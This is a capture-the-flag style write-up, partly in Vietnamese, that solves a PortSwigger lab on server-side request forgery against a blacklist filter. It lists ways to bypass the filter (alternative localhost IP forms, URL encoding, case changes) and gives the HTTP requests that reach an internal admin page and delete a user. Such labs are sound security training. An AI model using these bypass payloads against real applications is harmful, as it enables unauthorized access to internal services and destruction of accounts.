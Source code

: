 # [Lab: SSRF with blacklist-based input filter](https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter)

Lỗ hổng: khi chống ssrf bằng blacklist, blacklist thì luôn có một vấn đề đó là bị thiếu.

Some applications block input containing hostnames like `127.0.0.1` and `localhost`, or sensitive URLs like `/admin`. In this situation, you can often circumvent the filter using various techniques:
- Using an alternative IP representation of `127.0.0.1`: such as `2130706433`, `017700000001`, or `127.1`.
- Registering your own domain name that resolves to 127.0.0.1. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscating blocked strings using URL encoding or case variation.

**exploit**
1. Dùng burpsuite bắt request khi sử dụng chức năng check stock:
```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
...

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1  
```
2. Gửi request đến repeater
3. Chỉnh sửa request thành, từ khóa `localhost` và `admin` đã bị cho vào blacklist, nhưng `localhosT` và `admiN` thì không:
```http
POST /product/stock HTTP/1.1
Host: 0a63002b0443cd0cc3510b50006c0059.web-security-academy.net
...

stockApi=http%3a//localhosT/admiN
```
=> response:
![38720c548dbab5641bc00be44b4a0c64.png](../../../../../../_resources/38720c548dbab5641bc00be44b4a0c64.png)
4. Quan sát response lấy được url để xóa tài khoản của carlos `/admin/delete?username=carlos`
![cb7d0370ab3e1d84c01dd11ec9214b62.png](../../../../../../_resources/cb7d0370ab3e1d84c01dd11ec9214b62.png)
5. Thay đổi request ở repeater và gửi lại:
```http
POST /product/stock HTTP/1.1
Host: 0a34000e0453e884c1de856c003300a9.web-security-academy.net
...

stockApi=http%3a//localhosT/admiN/delete?username=carlos
```
=> Tài khoản carlos đã bị xóa. Solved